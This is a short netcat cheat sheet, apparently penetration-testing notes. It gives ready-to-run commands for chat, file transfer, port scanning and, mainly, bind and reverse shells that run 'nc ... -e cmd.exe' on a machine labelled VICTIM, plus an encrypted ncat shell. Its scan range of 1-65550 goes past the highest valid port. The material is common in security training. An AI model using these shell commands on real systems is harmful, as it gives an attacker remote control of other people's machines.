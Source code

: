 nc -nv <ip> <port>

CHAT

    nc -nlvp 4444
    nc -nv <ip> 4444

FILE TRANSFER

    nc -nlvp 4444 > file.exe  
    nc -nv <ip> 4444 < file.exe

BIND SHELL

    VICTIM (server)
        nc -lvp 4444 -e cmd.exe

    ATTACKER (client)
        nc -nv <IP Address> 4444

REVERSE SHELL

    ATTACKER (server)
        nc -lvp 4444

    VICTIM (client)
        nc -nv <IP Address> 4444 -e cmd.exe

NCAT for increased security

    VICTIM (server)
        ncat -lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl

    ATTACKER (client)
        ncat -nv <IP Address> 4444 --ssl

Port Scanning with NC

    TCP Connect Port Scan

        nc -nvv -w 1 -z <ip> 1-65550

    UDP Scan

        nc -unvv -w 1 -z <ip> 1-65550
